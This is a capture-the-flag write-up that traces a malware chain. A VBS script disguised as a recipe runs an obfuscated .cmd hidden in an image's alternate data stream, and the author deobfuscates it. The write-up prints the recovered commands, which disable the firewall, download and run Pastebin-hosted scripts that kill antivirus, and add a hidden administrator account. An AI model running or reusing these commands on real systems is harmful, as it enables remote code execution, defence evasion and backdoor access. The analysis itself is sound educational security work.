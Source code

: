 +++
title = "An email from aunt Chloe - Writeup"
draft = false
ShowToc = false
author = ["connar"]
+++

## Starting the analysis

In this challenge we are provided with a .rar file. We can extract the following files from this archive:
-	An image named “SantasVillage.png”
-	A txt named “RecipeForClassicBreadStuffing.txt”

If we pay attention to the txt file, we will notice that it is actually a vbs script. If we open it and view its contents we are met with the following code:
![contents vbs](/posts/writeups/ntua/emailAuntChloe1.png)

What this script is doing is:
-	Open a website with recipe instructions.
-	Try to craft the path for the png image.
-	Try and execute a script named herfxmasgiftfreh.cmd found inside an ADS stream of the png file.  

This should raise some alarms about the script inside the ADS stream of the png image, so let’s start analyzing it. To get the contents of the hidden script inside the ADS stream, we can run the following command:
![ads contents](/posts/writeups/ntua/emailAuntChloe2.png)

After running the command “Get-Content –Path .\VillageOfSanta.png -Stream herfxmasgiftfreh.cmd” we get the embedded .cmd script that seems to be obfuscated. Let’s save it to a separate file and start deobfuscating it.

## Deobfuscation
The method of obfuscation here is called envar obfuscation. Basically the malware creates a set of characters and creates the code to be executed by taking individual characters from the defined list:  
![poc](/posts/writeups/ntua/emailAuntChloe3.png)  

After we are done deobfuscating the script (by replacing each expression with the corresponding character), we are met with the following script:  
![poc](/posts/writeups/ntua/emailAuntChloe4.png)  

The script has a lot going on, but we should pay attention to only 3 suspicious parts. The first one is the one where the script tries to download a .bat file from Pastebin and then run it:
```cmd
netsh firewall set opmode mode-disable
powershell -command "Invoke-Webrequest https://pastebin.com/raw/bLnD8FWX -outfile KillAVS.bat"
start KillAVS.bat
```

If we visit this url, we are met with another obfuscated script:  
![another obf script](/posts/writeups/ntua/emailAuntChloe5.png)  

Upon deobfuscating it with the same method used previously, we end up with the following deobfuscated script:  
![deobf script](/posts/writeups/ntua/emailAuntChloe6.png)  

This tried to stop all possible AV engines that may be installed on the system. Really interesting, but no flag here, so let’s move to the second suspicious url:  
```cmd
cls
powershell -Command "Invoke-WebRequest https://pastebin.com/raw/ptkj3Ua5 -outFile ycynlog.cmd"
start /min ycynlog.cmd
```

As before, another obfuscated script can be found by visiting the url:  
![another obf script](/posts/writeups/ntua/emailAuntChloe7.png)  

Deobfuscating once again the script with the same methodology, we end up with:  
![deobf script](/posts/writeups/ntua/emailAuntChloe8.png)  

Another file being dropped… But this time its an executable. Maybe this is the end? Visiting the rentry link we end up with some hex values that match the header of an executable:  
![dropped script](/posts/writeups/ntua/emailAuntChloe9.png) 

The script itself tries to decode them and save the bytes to an executable, so we should try and do the same. We can use cyberchef for that:  
![dropped script](/posts/writeups/ntua/emailAuntChloe10.png)  

Saving them as an .exe and opening the executable in IDA, we are met with the following contents:  
![dropped script](/posts/writeups/ntua/emailAuntChloe11.png)  

After looking around a bit in the functions, we are finally met with the flag:
```C
UINT AddUser()
{
    WinExec(
        "cmd.exe /c net user System_guest NHACK{4_7h3_23c02d_7h15_w45_4n_4c7u4l_m4lw4r3_54mpl3_s0_c0n92475!!} /add";
    0);
    return WinExec("cmd.exe /c net localgroup administrators System_guest /add"; 0);
}
```